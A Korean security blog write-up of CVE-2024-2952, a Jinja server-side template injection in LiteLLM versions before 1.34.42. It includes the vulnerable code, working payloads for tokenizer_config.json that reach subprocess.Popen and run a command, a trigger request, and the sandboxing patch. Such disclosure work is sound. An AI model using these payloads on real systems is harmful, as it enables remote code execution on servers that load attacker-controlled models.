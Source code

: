 ```yaml
---
title: "[하루한줄] CVE-2024-2952: LiteLLM의 SSTI 취약점"
author: ogu123
tags:  [LiteLLM, SSTI, RCE, ogu123]
categories: [1day1line]
date: 2024-08-07 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://blog.huntr.com/server-side-template-injection-contributor-blog

## Target

- LiteLLM < 1.34.42

## Explain

다양한 LLM API를 애플리케이션에 통합하는 LiteLLM 솔루션에서 SSTI 취약점이 발견되었습니다.

취약점은 `hf_chat_template` 메소드에서 `from_string` 함수를 통해 템플릿을 처리할 때 발생합니다.

```
def hf_chat_template(model: str, messages: list, chat_template: Optional[Any] = None):
    # ... more code
    env = Environment()
    env.globals["raise_exception"] = raise_exception
    try:
        template = env.from_string(chat_template)
    except Exception as e:
        raise e
```

`hf_chat_template` 메소드는 Hugging Face 모델의 `tokenizer_config.json` 파일에서 가져온 `chat_template` 매개변수 통해 Jinja 템플릿를 처리합니다.

이때, `chat_template` 값을 검증하지 않고 그대로 사용해 SSTI 취약점이 발생합니다.

취약점을 악용하기 위해 임의의 Hugging Face 모델에 아래와 같이 `tokenizer_config.json` 파일을 포함시켜 임의의 코드를 실행시킬 수 있습니다.


```
{
  "bos_token":"",
  "eos_token":"",
  "chat_template":"{% set ci = namespace(i=0) %}{% for c in ().__class__.__base__.__subclasses__()%}{% set ci.i =ci.i+ 1 %}{% if c.__name__=='Popen' %}{{ci.i}}{% endif %}{% endfor %}"
}
```

Hugging Face에 모델을 생성하고, 위 `tokenizer_config.json` 파일을 업로드합니다.

위 템플릿은 `subprocess.Popen` 클래스의 인덱스를 찾는 코드를 포함하고 있습니다. 이때, `bos_token`과 `eos_token` 값은 애플리케이션 흐름을 방해하지 않도록 설정합니다.


```
curl -X 'POST' \
  'http://localhost:8000/completions' \
  -H 'accept: application/json' \
  -d '{"model":"huggingface/<user_name>/<model_name>","prompt":"hi"}'
```
`/completions` 엔드포인트로 요청을 보내면 `hf_chat_template` 메서드가 호출되어 `Popen` 클래스의 인덱스 번호를 확인할 수 있습니다.

```
{
  "bos_token":"",
  "eos_token":"",
  "chat_template":"{{().__class__.__base__.__subclasses__()[389](['touch','/tmp/1337'])}}"
}
```
인덱스 번호를 확인한 후, `tokenizer_config.json` 파일을 위와 같이 수정해 임의의 코드를 실행할 수 있습니다.

`Popen` 클래스의 인덱스 번호는 서버 환경에 따라 다를 수 있습니다. 따라서 각 서버 환경에 맞게 인덱스 번호를 확인해야 합니다.

![](cve-2024-2952/image1.png)

touch 명령어가 실행되어 `/tmp/1337` 파일이 생성됩니다. 따라서, 공격자는 임의의 명령어를 실행시킬 수 있습니다.

![](cve-2024-2952/image2.png)

해당 취약점은 Jinja 템플릿을 처리하는 환경을 `Environment`에서 `ImmutableSandboxedEnvironment`로 변경해 탬플릿 내부에서 실행 가능한 코드 범위를 제한하도록 패치되었습니다.


## Reference

- https://github.com/advisories/GHSA-46cm-pfwv-cgf8